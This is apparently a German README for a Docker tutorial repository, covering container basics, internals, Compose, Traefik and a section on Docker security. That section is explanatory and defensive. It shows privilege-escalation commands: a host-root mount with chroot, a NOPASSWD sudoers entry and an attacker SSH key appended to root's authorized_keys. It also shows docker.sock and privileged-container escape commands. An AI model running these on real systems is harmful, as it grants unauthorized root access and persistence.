


In diesem Repo werden wir uns umfassend mit Docker beschäftigen. Wir lernen die Grundlagen der Containerisierung, wie Docker intern funktioniert und arbeiten uns von einfachen Dockerfiles bis hin zu professionellen Multi-Container-Setups mit Traefik und Security Best Practices vor.

## Übersicht

> [!TIP]
> Wir werden uns Schritt für Schritt mit Docker beschäftigen. Jeder Schritt baut auf dem vorherigen auf.
> Für jeden praktischen Schritt gibt es einen eigenen Ordner, in dem sich ein Dockerfile befindet.

0. [Warum Docker?](#warum-docker)
1. [Docker Internals](#docker-internals)
2. [Einstieg - Dockerfile `./1-getting-started`](#einstieg)
3. [Ausführen einer Anwendung in einem Dockercontainer `./2-app-container`](#ausführen-der-anwendung-in-einem-dockercontainer)
4. [Bauen einer Anwendung mit Docker `./3-build-in-dockerfile`](#anwendung-mit-docker-bauen)
5. [Multi-Stage Builds `./4-multi-stage-builds`](#multi-stage-builds)
6. [Docker Compose `./5-docker-compose`, `./6-docker-compose-build`](#docker-compose)
7. [Docker Compose für Entwicklung `./7-docker-compose-dev`](#docker-compose-für-entwicklung)
8. [Traefik `./8-traefik`](#traefik)
9. [Docker Security - Häufige Sicherheitsfehler](#docker-security---häufige-sicherheitsfehler)
10. [Docker Cheat Sheet](#docker-cheat-sheet)

Bei den Schritten wo wir eine Beispielanwendung verwenden, handelt es sich um eine einfache Node.js-Anwendung (Typescript).
Diese Anwendung liegt jeweils in den Ordnern in einem Unterordner (`sampleApp`, z.B. `./2-app-container/sampleApp`).

## Warum Docker?

> [!TIP]
> Docker ist eine Open-Source-Plattform, die ursprünglich von dotCloud (heute Docker Inc.) entwickelt wurde,
> um Anwendungen in isolierten Containern bereitzustellen und zu verwalten.

### Wie ist eine Anwendung aufgebaut?

Hier sehen wir eine typische Anwendung. Sie besteht aus verschiedenen Komponenten, die zusammenarbeiten, um die
gewünschte Funktionalität zu erreichen.



Der traditionelle Ansatz zur Bereitstellung einer Anwendung hat jedoch einige Herausforderungen:

- **Abhängigkeiten**: Die Anwendung benötigt bestimmte Abhängigkeiten, um zu funktionieren (z.B. Bibliotheken,
  Datenbanken).
- **Konfiguration**: Die Anwendung benötigt eine Konfiguration, um zu wissen, wie sie sich verhalten soll.
- **Umgebung**: Die Anwendung benötigt eine Umgebung, in der sie ausgeführt werden kann (z.B. Betriebssystem,
  Laufzeitumgebung).
- **Deployment**: Die Anwendung muss auf einem Server bereitgestellt werden, damit sie von Benutzern verwendet werden
  kann.
- **Skalierung**: Die Anwendung muss in der Lage sein, mit steigender Benutzerzahl umzugehen.
- **Wartung**: Die Anwendung muss gewartet werden, um sicherzustellen, dass sie weiterhin funktioniert.

### Container-basierte Lösungsansätze

> "We can solve any problem by introducing an extra level of indirection."
> - David Wheeler

> [!NOTE]
> In einem Docker Container können wir eine Anwendung und alle ihre Abhängigkeiten zusammenfassen.
> Dadurch wird die Anwendung portabel und kann überall ausgeführt werden, wo Docker installiert ist.



Diesen Container können wir dann auf einem Server bereitstellen, um die Anwendung zu deployen.
Außerdem können wir dann auf demselben Server mehrere Container starten, um auch andere
Anwendungen zu deployen, ohne dass sie sich gegenseitig beeinflussen.

Auch andere Herausforderungen wie Skalierung und Wartung können mit Docker gelöst werden.

So können wir z.B. mit Docker Compose mehrere Container starten, die zusammenarbeiten, um die gewünschte Funktionalität
zu erreichen.
Außerdem können wir mit Docker Swarm oder Kubernetes Container auf mehreren Servern starten, um die Anwendung zu
skalieren.

Mit dem folgenden Befehl können wir einen Container starten:

```bash
$ docker run \
 -v /host/foo/file:/container/bar/file \
 –p 3000:5000 \
 —name name_of_container \
 tag_of_image
```

### Von Images zu Containern

> [!NOTE]
> Jeder Docker Container basiert auf einem Docker Image. Ein Image ist eine Art Vorlage, die verwendet wird, um einen
> Container zu erstellen.

Docker Images sind in Layern aufgebaut. Jeder Layer enthält eine Änderung am Dateisystem.
Wenn ein Container erstellt wird, werden diese Layer zusammengeführt, um das Dateisystem des Containers zu erstellen.

Diese Layer werden in einem Dockerfile definiert. Ein Dockerfile ist eine Textdatei, die die Schritte zum Erstellen
eines Docker Images beschreibt.

Außerdem können wir in einem Dockerfile auch Umgebungsvariablen, Argumente und Befehle definieren, die beim Starten des
Containers ausgeführt werden sollen.

Jedes Image basiert auf einem Basisimage. Das Basisimage enthält das Betriebssystem und die Laufzeitumgebung, die für
die Anwendung benötigt werden.

## Docker Internals

> [!NOTE]
> Docker nutzt drei zentrale Linux-Kernel-Features: **Namespaces**, **Control Groups (cgroups)** und **Layer-basierte Dateisysteme**.
> Diese ermöglichen es, Prozesse zu isolieren, ohne eine vollständige virtuelle Maschine zu benötigen.

### Die drei Säulen von Docker

#### 1. Namespaces - Isolation der Prozesse

**Was sind Namespaces?**
Namespaces schaffen isolierte "Sichten" auf Systemressourcen. Ein Prozess in einem Namespace sieht nur die Ressourcen seines eigenen Namespace.

**Die wichtigsten Namespace-Typen:**
- **PID Namespace**: Jeder Container hat seine eigene Prozess-ID-Nummerierung (Container-Prozess mit PID 1)
- **Network Namespace**: Eigene Netzwerk-Interfaces, IP-Adressen und Routing-Tabellen
- **Mount Namespace**: Eigene Dateisystem-Hierarchie und Mount-Points
- **UTS Namespace**: Eigener Hostname und Domain-Name
- **User Namespace**: Eigene User- und Group-IDs

#### 2. Control Groups (cgroups) - Ressourcenbegrenzung

**Was sind cgroups?**
Control Groups begrenzen und überwachen die Ressourcennutzung von Prozessgruppen.

**Kontrollierte Ressourcen:**
- **CPU**: Prozessorzeit und -kerne
- **Memory**: RAM-Verbrauch und Swap
- **Block I/O**: Festplatten-Zugriffe
- **Network**: Netzwerk-Bandbreite

#### 3. Layered Filesystem - Effiziente Speicherung

**Wie funktionieren Layers?**
Docker Images bestehen aus schreibgeschützten Layern, die übereinander gestapelt werden. Jeder Layer enthält nur die Änderungen zum vorherigen Layer.

**Copy-on-Write**: Wenn ein Container eine Datei aus einem unteren Layer ändern möchte, wird sie in den Container-Layer kopiert und dort modifiziert.

### Vereinfachte Implementierung (Pseudocode)

```go
// Vereinfachte Docker Container Erstellung
func CreateContainer(image string, cmd []string) error {
    // 1. Namespaces erstellen
    namespaces := []string{"pid", "net", "mnt", "uts", "user"}
    for _, ns := range namespaces {
        syscall.Unshare(getNamespaceFlag(ns))
    }

    // 2. Cgroups konfigurieren
    cgroup := "/sys/fs/cgroup/docker/" + containerID
    writeFile(cgroup+"/memory.limit_in_bytes", "512M")
    writeFile(cgroup+"/cpu.cfs_quota_us", "50000") // 50% CPU

    // 3. Layered Filesystem mounten
    mountPoint := "/var/lib/docker/overlay2/" + containerID
    for _, layer := range image.Layers {
        mount(layer.Path, mountPoint, "overlay2")
    }

    // 4. Root-Filesystem wechseln
    chroot(mountPoint)

    // 5. Container-Prozess starten
    exec(cmd[0], cmd[1:]...)
}
```

### Unterschied zu VMs

> [!TIP]
> Diese Architektur macht Docker Container so leichtgewichtig: Sie nutzen den Host-Kernel direkt und benötigen keine Virtualisierung der Hardware. Dadurch starten sie in Millisekunden statt Minuten.

| Aspekt | Virtuelle Maschinen (VMs) | Docker Container |
|--------|---------------------------|------------------|
| **Architektur** | Vollständige Betriebssystem-Instanzen | Teilen sich den Host-Kernel |
| **Virtualisierung** | Hardware-Virtualisierung durch Hypervisor | Prozess-Isolation durch Kernel-Features |
| **Ressourcenverbrauch** | Hoch (jede VM braucht eigenes OS) | Niedrig (nur Anwendung + Dependencies) |
| **Startzeit** | Minuten | Millisekunden bis Sekunden |
| **Speicherverbrauch** | GB pro Instanz | MB pro Container |
| **Isolation** | Vollständige Isolation | Prozess-Level Isolation |
| **Portabilität** | Begrenzt (VM-Format abhängig) | Hoch (läuft überall wo Docker läuft) |
| **Overhead** | Hoch durch mehrere Kernel | Minimal durch geteilten Kernel |
| **Skalierung** | Langsam und ressourcenintensiv | Schnell und ressourcenschonend |
| **Use Case** | Verschiedene Betriebssysteme, Legacy Apps | Microservices, Cloud-native Apps |

## Einstieg

> [!TIP]
> Installiere Docker auf deinem System, um den Beispielen in diesem Repo zu folgen.

Als Erstes schauen wir uns eine simple Dockerfile an, um die Syntax zu verstehen.

Dabei wollen wir in dem Dockercontainer nur das Linux-Kommando `echo` ausführen.

Das Dockerfile zeigt folgende Struktur: [Dockerfile](https://github.com/ValentinKolb/docker-demo/blob/main/1-getting-started/Dockerfile)

Führe folgende Befehle aus, um das Dockerimage zu bauen und den Container zu starten:

```bash
# clonen dieses Repositories
git clone https://github.com/ValentinKolb/docker-demo.git

# in den Ordner wechseln
cd docker-demo/1-getting-started

# bauen des Dockerimages mit dem Namen "getting-started"
docker build -t "getting-started" .

# starten des Containers
docker run getting-started

# starten des Containers mit angegebenem Argument
docker run getting-started "Hello Docker"
```

## Unsere Anwendung

> [!NOTE]
> Im nächsten Schritt führen wir eine Anwendung in einem Dockercontainer aus.
> Dabei kompilieren wir die Anwendung lokal und starten sie dann in einem Dockercontainer.

> [!TIP]
> Installiere [Node.js](https://nodejs.org/en/download), um die Anwendung lokal auszuführen.

Als Beispielanwendung verwenden wir eine einfache Node.js-Anwendung (Typescript).
Um dem Beispiel zu folgen, sind keine Node.js und Typescript-Kenntnisse erforderlich.
Die Anwendung rendert eine einfache Webseite und bietet HTTP-Endpunkte für das Abrufen von Umgebungsvariablen an.

### Überblick über die Anwendung

Die Anwendung bietet drei Befehle:

- `npm run start:dev`: Startet die Anwendung im Entwicklungsmodus.
- `npm run build`: **Kompiliert** die Anwendung von Typescript in Javascript.
- `npm run start:prod`: Startet die kompilierte Anwendung.

### Ausführen der Anwendung lokal

Folgende Befehle führen die Anwendung im Entwicklungsmodus aus:

```bash
# in den Ordner wechseln
cd 2-app-container/sampleApp

# installieren der Abhängigkeiten
npm install

# starten der Anwendung im Entwicklungsmodus
npm run start:dev
```

### Lokales Kompilieren und Ausführen der Anwendung

Folgende Befehle kompilieren die Anwendung und führen sie lokal aus:

```bash
# in den Ordner wechseln
cd sampleApp

# kompilieren der Anwendung
npm run build # dieser Befehl funktioniert nur, wenn `npm install` bereits ausgeführt wurde

# starten der kompilierten Anwendung
npm run start:prod
```

Nun kann die Anwendung unter [http://localhost:3000](http://localhost:3000) aufgerufen werden.

### Ausführen der Anwendung in einem Dockercontainer

> [!NOTE]
> Im nächsten Schritt führen wir die Anwendung in einem Dockercontainer aus.

Das Dockerfile zeigt folgende Konfiguration: [Dockerfile](https://github.com/ValentinKolb/docker-demo/blob/main/2-app-container/Dockerfile)

Um die Anwendung zu starten, muss zunächst der Sourcecode kompiliert werden.
Dies wurde bereits im vorherigen Schritt durchgeführt. Dabei wurde der Ordner `.sampleApp/out/` erstellt, in dem sich
der kompilierte Code befindet.

Dieser kompilierte Code wird im Dockerfile in den Ordner `/app` des Containers kopiert.

```Dockerfile
# Copy compiled source code
COPY ./sampleApp/out ./out
```

Danach kann das Dockerimage gebaut und der Container gestartet werden:

```bash
# in den Ordner wechseln
cd 2-app-container

# bauen des Dockerimages mit dem Namen (aka Tag) "app-container"
# Voraussetzung: `npm install` und `npm run build` müssen bereits ausgeführt worden sein
# Diese Abhängigkeit lösen wir im nächsten Schritt auf
docker build --tag "app-container" .

# starten des Containers
docker run -p 5432:3000 app-container
```

Damit von außen auf die Anwendung zugegriffen werden kann, muss der Port 3000 freigegeben werden.
Der Port 3000 des Containers wird auf den Port 5432 des Hosts gemappt. Dabei kann der Port des Hosts beliebig gewählt
werden: `-p <HOST-PORT>:<CONTAINER-PORT>`.

Nun kann die Anwendung unter [http://localhost:5432](http://localhost:5432) aufgerufen werden.

## Anwendung mit Docker bauen

> [!NOTE]
> Im nächsten Schritt erfolgt auch das Kompilieren der Anwendung in einem Dockercontainer.

### Build-Container: Vorteile und Anwendungsfälle

- **Portabilität**: Die Anwendung kann auf jedem System (z.B. CI/CD-Pipeline) gebaut werden, auf dem Docker installiert
  ist.
- **Reproduzierbarkeit**: Der Build-Prozess ist immer gleich, unabhängig von der Umgebung.
- **Isolation**: Der Build-Prozess ist von der Umgebung isoliert, um Konflikte zu vermeiden.

### Überblick über den Build-Prozess

Die wesentlichen Änderungen: Vorher haben wir die Anwendung lokal kompiliert und dann in einem Dockercontainer
ausgeführt.
Nun erfolgen sowohl Kompilierung als auch Ausführung der Anwendung innerhalb von Dockercontainern.

Dazu kopieren wir nun den Sourcecode in den Dockercontainer und kompilieren ihn dort.

```Dockerfile
# Copy the source code
COPY ./sampleApp/src ./src
COPY ./sampleApp/tsconfig.json ./

# Compile the TypeScript code
RUN npm run build
```

Anschließend können wir das Dockerimage bauen und den Container starten:

```bash
# in den Ordner wechseln
cd 3-build-in-dockerfile

# bauen des Dockerimages mit dem Namen (aka Tag) "build-in-dockerfile"
docker build --tag "build-in-dockerfile" .

# starten des Containers
docker run -p 5432:3000 build-in-dockerfile
```

Nun kann die Anwendung wieder unter [http://localhost:5432](http://localhost:5432) aufgerufen werden.

## Multi-Stage Builds

> [!NOTE]
> In diesem Schritt optimieren wir den Build-Prozess durch Multi-Stage Builds.

### Multi-Stage Builds: Vorteile und Konzept

- **Effizienz**: Nur die benötigten Dateien werden in das finale Image kopiert.
- **Größe**: Das finale Image ist kleiner, da nur die benötigten Dateien enthalten sind.
- **Code-Schutz**: Der Sourcecode ist nicht im finalen Image enthalten.

### Überblick über den Build-Prozess

In einem Multi-Stage Build können wir mehrere Stages definieren, die nacheinander ausgeführt werden.
Jede Stage kann auf das Ergebnis der vorherigen Stage zugreifen.

Dabei ist jede Stage ein eigenständiger Build-Schritt mit eigenem Dateisystem.

Um eine Stage zu definieren, verwenden wir das Schlüsselwort `FROM` mit einem Alias für die Stage.

```Dockerfile
# Stage 1: Build the application
FROM node:14 AS build

# ...

# Stage 2: Run the application
FROM node:14 AS run

# ...

# Copy only the compiled code from the builder container
COPY --from=builder /app/out ./out
# Copy the third-party dependencies from the builder container (no need to install them again)
COPY --from=builder /app/node_modules ./node_modules

# ...
```

Anschließend können wir das Dockerimage bauen und den Container starten:

```bash
# in den Ordner wechseln
cd 4-multi-stage-builds

# bauen des Dockerimages mit dem Namen (aka Tag) "multi-stage-builds"
docker build --tag "multi-stage-builds" .

# starten des Containers
docker run -p 5432:3000 multi-stage-builds

# images und deren Größe anzeigen
docker images
```

## Docker Compose

### Einführung

> [!NOTE]
> In diesem Schritt verwenden wir Docker Compose zur Containerverwaltung.

> [!TIP]
> Docker Compose ist ein separates Tool zur Definition und Ausführung von Multi-Container-Anwendungen.
> Es wird typischerweise zusammen mit Docker installiert.

**Was ist Docker Compose?**

Docker Compose ist ein Tool zur Definition und Ausführung von Docker-Anwendungen mit mehreren Containern.
Dabei wird der Anwendungsstack in einer einzigen Datei definiert, der `docker-compose.yml`. So müssen
nicht alle Befehle manuell in der Konsole eingegeben werden.

**Vorteile von Docker Compose:**

* Vereinfacht die Verwaltung von Multi-Container-Anwendungen
* Definiert den gesamten Anwendungsstack deklarativ in einer Datei
* Ermöglicht reproduzierbare Deployments und einfache Skalierung

**Docker vs. Docker Compose:**

* **Docker CLI**: Einzelne Container manuell verwalten
* **Docker Compose**: Deklarative Multi-Container-Orchestrierung

### Docker Compose Beispiel

> [!NOTE]
> In diesem Schritt verwenden wir Docker Compose, um das im letzten Schritt erstellte Dockerimage zu starten.

Die `docker-compose.yml` zeigt folgende Konfiguration: [docker-compose.yml](https://github.com/ValentinKolb/docker-demo/blob/main/5-docker-compose/docker-compose.yml)

In der `docker-compose.yml` definieren wir die Services, die wir starten wollen.

```yaml
services:
  example-app:
    image: multi-stage-builds
    ports:
      - "5432:3000"
    environment:
      - "FOO=bar"
    volumes:
      - ./example.html:/app/public/example.html
```

* Mit dem `services`-Schlüsselwort definieren wir eine Liste von Services.
* Mit dem `example-app`-Schlüsselwort definieren wir den Namen des Services.
* Mit dem `image`-Schlüsselwort definieren wir das Dockerimage, das verwendet werden soll.
* Mit dem `ports`-Schlüsselwort definieren wir die Ports, die freigegeben werden sollen.
* Mit dem `environment`-Schlüsselwort definieren wir die Umgebungsvariablen, die gesetzt werden sollen.
* Mit dem `volumes`-Schlüsselwort definieren wir die Volumes, die gemountet werden sollen.

Nun können wir den Container starten:

```bash
# wechseln in den Ordner
cd 5-docker-compose

# starten der Container
docker compose up
```

Da wir die Umgebungsvariable `FOO=bar` gesetzt haben, können wir diese auf der Webseite
der Beispielanwendung einsehen: [http://localhost:5432/env/FOO](http://localhost:5432/env/FOO)

Außerdem können wir die per Bind-Mount eingebundene Datei `example.html` im Browser
betrachten: [http://localhost:5432/example.html](http://localhost:5432/example.html)

### Docker Compose mit Build

> [!NOTE]
> In diesem Schritt verwenden wir Docker Compose sowohl zum Bauen als auch zum Starten des Docker Containers.

> [!TIP]
> Docker Images können auch direkt in Docker Compose gebaut werden. Dies sollte jedoch nur für die Entwicklung
> verwendet werden.
> Für Produktion sollte das Dockerimage z.B. in einer Pipeline gebaut und dann über eine Registry bereitgestellt werden.

**Unterschiede zum vorherigen Ansatz:**

Bisher haben wir das Dockerimage manuell mit `docker build ...` gebaut und dann den Container mithilfe von Docker
Compose gestartet.
Nun verwenden wir Docker Compose, um direkt das Dockerimage zu bauen und den Container zu starten.

Die `docker-compose.yml` zeigt die angepasste Konfiguration: [docker-compose.yml](https://github.com/ValentinKolb/docker-demo/blob/main/6-docker-compose-build/docker-compose.yml)

**Was hat sich geändert?**

```diff
services:
  example-app:
-    image: multi-stage-builds
+    build:
+      context: .
+      dockerfile: Dockerfile
```

* Mit dem `build`-Schlüsselwort können wir das Dockerimage direkt aus dem Dockerfile bauen.
* Mit dem `context`-Schlüsselwort können wir das Verzeichnis angeben, in dem sich das Dockerfile befindet.
* Mit dem `dockerfile`-Schlüsselwort können wir das Dockerfile angeben, das verwendet werden soll.

Nun können wir das Dockerimage bauen und den Container starten:

```bash
# wechseln in den Ordner
cd 6-docker-compose-build

# starten und bauen der Container
docker compose up --build --force-recreate
```

* Das `--build`-Flag bewirkt, dass das Dockerimage vor dem Containerstart neu gebaut wird.
* Das `--force-recreate`-Flag erstellt den Container neu, selbst wenn er bereits existiert.

### Docker Compose für Entwicklung

> [!NOTE]
> In diesem Schritt verwenden wir Docker Compose für die Entwicklungsumgebung.
> Der Container wird bei Änderungen am Sourcecode automatisch neu gebaut und gestartet.

**Neue Funktionalitäten in diesem Abschnitt:**

In den vorherigen Schritten haben wir Docker Compose zur Containerausführung verwendet.
Nun nutzen wir Docker Compose für automatisches Rebuilding während der Entwicklung.

Diese `docker-compose.yml` ist speziell für die Entwicklung
konfiguriert: [docker-compose.yml](https://github.com/ValentinKolb/docker-demo/blob/main/7-docker-compose-dev/docker-compose.yml)

**Was hat sich geändert?**

```diff
services:
  example-app:
    build:
      context: .
      dockerfile: Dockerfile
    ports:
      - "5432:3000"
+   develop:
+     watch:
+       - action: sync
+         path: ./sampleApp/public
+         target: /app/public
+       - action: rebuild
+         path: ./sampleApp/src
```

* Das `develop`-Schlüsselwort konfiguriert den Entwicklungsmodus für Hot-Reloading.
* Das `watch`-Schlüsselwort definiert zu überwachende Dateien und Verzeichnisse.
* Das `action`-Schlüsselwort bestimmt die Reaktion auf Dateiänderungen:
    * `sync`: Synchronisiert Dateien zwischen Host und Container in Echtzeit (für statische Assets)
    * `rebuild`: Löst einen kompletten Container-Rebuild aus (für Sourcecode-Änderungen)

Nun können wir den Container im Watch-Modus starten:

```bash
# wechseln in den Ordner
cd 7-docker-compose-dev

# starten des Containers im Watch-Modus
docker compose watch # oder docker compose up --watch
```

## Traefik

> [!NOTE]
> In diesem Schritt implementieren wir Traefik als Reverse Proxy für unsere containerisierten Anwendungen.

### Was ist ein Reverse Proxy?

Ein Reverse Proxy ist ein Server, der als Vermittler zwischen Clients und Backend-Servern fungiert.
Er nimmt Client-Anfragen entgegen und leitet sie an die entsprechenden Backend-Server weiter.

**Beispiel:**
Wenn ein Benutzer `https://myapp.com/api/users` aufruft, leitet der Reverse Proxy die Anfrage
basierend auf dem Pfad `/api/` an den entsprechenden API-Server weiter. So können mehrere
Services hinter einer einzigen Domain betrieben werden.

#### Generelle Aufgaben eines Reverse Proxys

- **Request Routing**: Weiterleitung von Anfragen basierend auf Hostname, Pfad oder anderen Kriterien
- **Load Balancing**: Verteilung eingehender Requests auf mehrere Backend-Server
- **SSL/TLS Termination**: Verschlüsselungshandling am Proxy-Layer
- **Caching**: Zwischenspeicherung häufig angefragter Ressourcen zur Performance-Optimierung
- **Security**: Schutz vor DDoS-Attacken, Rate Limiting und Request-Filtering
- **Observability**: Logging, Monitoring und Tracing des Datenverkehrs
- **Health Checking**: Überwachung der Backend-Server-Verfügbarkeit

### Was ist Traefik?

Traefik ist ein moderner, Cloud-native Reverse Proxy und Load Balancer, der speziell für containerisierte und
mikroservice-basierte Architekturen entwickelt wurde. Er bietet automatische Service-Discovery und
dynamische Konfiguration ohne manuelle Eingriffe.

### Aufbau von Traefik


> [!TIP]
> Traefik besteht aus mehreren Komponenten, die zusammenarbeiten, um den Datenverkehr zu routen.

- **Entrypoints**: Definieren die Netzwerk-Eingangspunkte (Ports und Protokolle)
    - Beispiel: HTTP (Port 80), HTTPS (Port 443), TCP/UDP-Services
- **Routers**: Bestimmen Routing-Regeln basierend auf Request-Eigenschaften
    - Beispiel: `Host(example.com)` → Service `example-app`
- **Services**: Definieren Backend-Ziele und Load-Balancing-Strategegie
    - Beispiel: Docker-Container-Gruppe mit Health-Checks
- **Middlewares**: Verarbeiten Requests vor der Weiterleitung an Services
    - Beispiel: Authentication, Rate Limiting, Header-Manipulation

#### Zusätzliche Komponenten

> [!TIP]
> Traefik bietet zusätzliche Komponenten, die die Funktionalität erweitern, allerdings nicht direkt mit dem Routing
> zusammenhängen.

- **Providers**: Datenquellen für automatische Konfigurationserkennung
    - Docker (Labels), Kubernetes (Ingress/CRDs), File-Provider (YAML/TOML), Consul, etcd
- **Dashboard**: Web-Interface zur Visualisierung der aktuellen Konfiguration und Metriken
- **Plugins**: Erweiterungsarchitektur für Custom-Middlewares (Go-basiert)
    - Integrationen: Let's Encrypt (ACME), Prometheus, Jaeger, OAuth-Provider

### Traefik Beispiel

> [!NOTE]
> In diesem Schritt konfigurieren wir Traefik für HTTP-Request-Routing zu unserer Dockercontainer-Anwendung.

Die `docker-compose.yml` zeigt die Traefik-Konfiguration: [docker-compose.yml](./8-traefik/docker-compose.yml)

Um die Anwendung und Traefik zu starten, führen wir folgende Befehle aus:

```bash
# wechseln in den Ordner
cd 8-traefik

# starten der Container
docker compose up
```

## Docker Security - Häufige Sicherheitsfehler

> [!WARNING]
> Docker Container sind **nicht** automatisch sicher. Falsche Konfiguration kann zu schwerwiegenden Sicherheitslücken führen.

Docker bietet durch Namespaces und cgroups eine gewisse Isolation, jedoch ist diese nicht mit einer vollständigen Virtualisierung vergleichbar. Sicherheitsprobleme entstehen oft durch Fehlkonfigurationen oder das Missverständnis, dass Container eine starke Sicherheitsgrenze darstellen.

### 1. Docker Group Privilege Escalation

**Das Problem:**
Die Mitgliedschaft in der `docker` Gruppe gewährt effektiv Root-Rechte auf dem Host-System, selbst ohne explizite `sudo`-Berechtigung.

**Beispiel eines Angriffs:**

```bash
# Als normaler Benutzer (ohne sudo-Rechte)
whoami
# → user

# Host-Dateisystem in Container mounten
docker run -it -v /:/host ubuntu:latest

# Im Container (als root)
chroot /host

# Jetzt kann der Angreifer das Host-System als root manipulieren
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# Oder SSH-Keys hinzufügen
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3... attacker@evil.com" >> /root/.ssh/authorized_keys
```

**Root Cause:**
- Docker Daemon läuft mit Root-Privilegien
- Benutzer der `docker` Gruppe können beliebige Container mit Volume-Mounts erstellen
- Container-Root-Benutzer hat Schreibrechte auf gemountete Host-Verzeichnisse
- Keine standardmäßige Einschränkung für Host-Filesystem-Zugriff

### 2. Container Escape Scenarios

Container-Isolation kann durch verschiedene Angriffsvektoren umgangen werden:

**Privilegierte Container:**
```bash
# Gefährlich: Vollständiger Host-Zugriff
docker run --privileged -it ubuntu

# Ermöglicht direkten Hardware-Zugriff
ls /dev/         # Alle Host-Devices sichtbar
fdisk -l         # Host-Festplatten manipulierbar
mount /dev/sda1  # Host-Partitionen mountbar
```

**Docker Socket Exposure:**
```bash
# Kritisch: Docker Daemon Socket gemountet
docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu

# Vollständige Docker-Kontrolle vom Container aus
docker ps                                    # Host-Container auflisten
docker exec -it host-container /bin/bash    # In andere Container einbrechen
docker run --privileged -v /:/host ubuntu   # Privilegierte Container starten
```

**Shared Kernel Vulnerabilities:**
```bash
# Container nutzen Host-Kernel
uname -r  # Identische Kernel-Version

# Kernel-Exploits umgehen Container-Isolation
# Beispiel: CVE-2022-0847 (Dirty Pipe)
# Privilege Escalation über Kernel-Bug
```

### 3. Sicherheitskonfigurationsfehler

| Fehler | Risiko | Sichere Alternative |
|--------|--------|-------------------|
| `--privileged` Flag | Vollzugriff auf Host-System | Nur spezifische Capabilities: `--cap-add=NET_ADMIN` |
| Root-User im Container | Privilege Escalation | Non-root User: `USER 1000:1000` |
| Host-Netzwerk | Umgehung der Netzwerk-Isolation | Eigenes Netzwerk: `--network custom` |
| Sensible Mounts | Dateisystem-Zugriff | Read-only Mounts: `-v /data:/data:ro` |
| Docker Socket Mount | Container-Escape | Socket-Proxy oder rootless Docker |
| Veraltete Images | Bekannte Vulnerabilities | Regelmäßige Updates und Vulnerability Scanning |

### 4. Security Hardening

**Dockerfile-Sicherheit:**
```dockerfile
# Minimale Base Images verwenden
FROM alpine:3.18 AS runtime

# Non-root User definieren
RUN addgroup -g 1001 -S appgroup && \
    adduser -S appuser -u 1001 -G appgroup

# Multi-stage für Clean Production Image
FROM node:18-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production

FROM alpine:3.18 AS runtime
COPY --from=builder /app/node_modules ./node_modules
COPY --from=builder /app/dist ./dist

# Security-optimierte Konfiguration
USER 1001:1001
EXPOSE 3000
```

**Runtime-Härtung:**
```bash
# Minimale Privilegien
docker run \
  --cap-drop=ALL \
  --cap-add=NET_BIND_SERVICE \
  --read-only \
  --tmpfs /tmp:noexec,nosuid,size=100m \
  --security-opt=no-new-privileges:true \
  --memory=512m \
  --cpus=0.5 \
  app:latest
```

### 5. Security Monitoring

```bash
# Unerwartete Prozesse
docker exec container ps aux | grep -v "expected_process"

# Privilege Escalation Versuche
docker logs container | grep -E "(sudo|su -|chmod \+s)"

# Datei-Zugriffsmuster
docker exec container find /etc /usr/bin -newer /tmp/baseline -ls

# Runtime-Änderungen erkennen
docker diff container_id

# Netzwerk-Verbindungen auflisten
docker exec container ss -tuln

# Offene Dateien überwachen
docker exec container lsof
```

> [!CAUTION]
> **Goldene Regel:** Docker nicht als Sicherheitsgrenze! Container-Isolation ist kein Ersatz für Security Controls auf Host-Ebene.

## Docker Cheat Sheet

```bash
# Container-Management
docker ps                              # Laufende Container anzeigen
docker ps -a                           # Alle Container anzeigen (inkl. gestoppte)
docker run [IMAGE_TAG]                 # Container aus Image erstellen und starten
